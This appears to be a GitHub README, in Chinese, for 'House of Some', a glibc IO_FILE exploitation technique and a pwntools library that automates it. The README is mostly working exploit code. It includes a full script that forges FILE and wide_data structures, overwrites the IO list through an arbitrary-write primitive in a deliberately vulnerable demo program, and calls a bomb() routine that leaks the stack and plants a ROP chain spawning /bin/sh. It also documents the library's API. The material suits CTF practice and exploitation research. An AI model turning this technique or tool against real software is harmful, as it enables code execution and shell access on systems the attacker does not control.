 # House of Some

一种新的IO_FILE利用思路，利用条件为

1. 已知glibc基地址
2. 可控的地址（可写入内容构造fake file）
3. 需要一次libc内任意地址写可控地址
4. 程序能正常退出或者通过exit()退出

House of some具有以下优点：

1. 无视目前的`IO_validate_vtable`检查（wide_data的vtable加上检查也可以打）
2. 第一次任意地址写要求低
3. 最后攻击提权是栈上ROP，可以不需要栈迁移
4. 源码级攻击，不依赖编译结果

详细思路见https://blog.csome.cc/p/house-of-some/

## 自动化

在exit退出之后使用如下脚本即可

```python
from House_of_some import HouseOfSome
io = process("./demo")

...

libc = ELF("./libc.so.6", checksec=None)
libc.address = libc_base
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
hos.bomb(io, ret_address)
```

- controled_addr：可写地址，作为延长的IO_list_all中的io file写入的起始地址

### 举个例子

```python
from pwn import *
from House_of_some import HouseOfSome

context.log_level = 'debug'
context.arch = 'amd64'

tob = lambda x: str(x).encode()
io = process("./demo")

io.recvuntil(b"[+] printf: ")
printf_addr = int(io.recvuntil(b"\n", drop=True), 16)
log.success(f"printf_addr: {printf_addr:#x}")

def add(size):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"size> ", tob(size))
    
def write(addr, size, content):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"size> ", tob(size))
    io.sendlineafter(b"addr> ", tob(addr))
    io.sendafter(b"content> ", content)

def leave():
    io.sendlineafter(b"> ", b"3")

libc = ELF("./libc.so.6", checksec=None)
add(0x200)
io.recvuntil(b"[+] done ")
heap_addr = int(io.recvuntil(b"\n", drop=True), 16)
log.success(f"heap_addr: {heap_addr:#x}")

libc_base = printf_addr - libc.symbols["printf"]
log.success(f"libc_base: {libc_base:#x}")

_IO_file_jumps_addr = libc_base + 0x216600

fake_wide_data = flat({
    0xE0: _IO_file_jumps_addr - 0x48,
    0x18: 0,
    0x20: 1,
}, filler=b"\x00")

fake_file_read = flat({
    0x00: 0, # _flags
    0xc0: 2, # _mode
    0x70: 0, # _fileno
    0x28: 0, # _IO_write_ptr
    0x20: 0, # _IO_write_base
    0x82: 0, # _vtable_offset
    
    0x38: heap_addr + 0xe0 + 0xe8, # _IO_buf_base
    0x40: heap_addr + 0xe0 + 0xe8 + 0x400, # _IO_buf_end

    0xa0: heap_addr + 0xe0, # _wide_data
    0xd8: libc_base + 0x2160C0, # vtable

    0x68: heap_addr + 0xe0 + 0xe8, # _chain next file
}, filler=b"\x00")

payload = flat({
    0x00: fake_file_read,
    0xe0: fake_wide_data
})
# 构造第一个任意地址写的fake file
io.sendlineafter(b"content> ", payload)
write(libc_base + 0x21a680, 8, p64(heap_addr))
leave() # exit

libc.address = libc_base
fake_file_start = heap_addr + 0xe0 + 0xe8
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
hos.bomb(io, libc.symbols['_IO_file_underflow'] + 390)

io.interactive()
```

demo.c源码

```python
#include<stdio.h>

int main(){
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    int c;
    printf("[+] printf: %p\n", &printf);
    while (1) {
        printf(
            "1. add heap.\n"
            "2. write libc.\n"
            "3. exit\n"
            "> "
        );
        scanf("%d", &c);
        if(c == 1) {
            int size;
            printf("size> ");
            scanf("%d", &size);
            char *p = malloc(size);
            printf("[+] done %p\n", p);
            printf("content> ");
            read(0, p, size);
        } else if(c == 2){
            size_t addr, size;
            printf("size> ");
            scanf("%lld", &size);
            printf("addr> ");
            scanf("%lld", &addr);
            printf("content> ");
            read(0, (char*)addr, size);
        } else {
            break;   
        }
        
    }
    
}
```

## Docs

### class HouseOfSome(libc, controled_addr, zero_addr=libc.symbols['_environ']-0x10)

**Parameters**

- libc([ELF](https://docs.pwntools.com/en/latest/elf/elf.html#pwnlib.elf.elf.ELF)) - libc文件ELF对象
- controled_addr(int) - 可写地址，作为延长的IO_list_all中的io file写入的起始地址
- zero_addr(int) - 内容常0的地址

house of some自动化payload生成类

**Example**

```python
hos = HouseOfSome(libc=libc, controled_addr=fake_file_start)
hos.bomb(io, libc.symbols['_IO_file_underflow'] + 390)
```

#### bomb(io, retn_addr) -> None

直接一把梭提权，运用[pwntools自带工具ROP](https://docs.pwntools.com/en/latest/rop/rop.html)，其中执行函数为`rop.call('execve', [b'/bin/sh', 0, 0])`

**Parameters**

- io([tube](https://docs.pwntools.com/en/latest/tubes.html#pwnlib.tubes.tube.tube)) - 交互IO，详细见pwntools文档
- retn_addr(int) - 在运行到IO_new_read_file栈中，存放的返回地址，用于计算返回地址与_envrion泄露的栈的偏移

#### read(fd, buf, len, end=0) -> bytes

**Parameters**

- fd(int) - 文件表述符
- buf(int) - 待写入的地址
- len(int) - 写入长度
- end(bool) - 是否为最后一个fake_file

#### write(fd, buf, len) -> bytes

**Parameters**

- fd(int) - 文件表述符
- buf(int) - 待读取的地址
- len(int) - 读取长度

#### bomb_raw(io, retn_addr) -> int

执行此函数之后，当前io处在等待输入，并即将写入ROP

**Parameters**

- io([tube](https://docs.pwntools.com/en/latest/tubes.html#pwnlib.tubes.tube.tube)) - 交互IO，详细见pwntools文档
- retn_addr(int) - 在运行到IO_new_read_file栈中，存放的返回地址，用于计算返回地址与_envrion泄露的栈的偏移

**return**

返回泄露的栈地址，此栈地址是ROP的起始地址

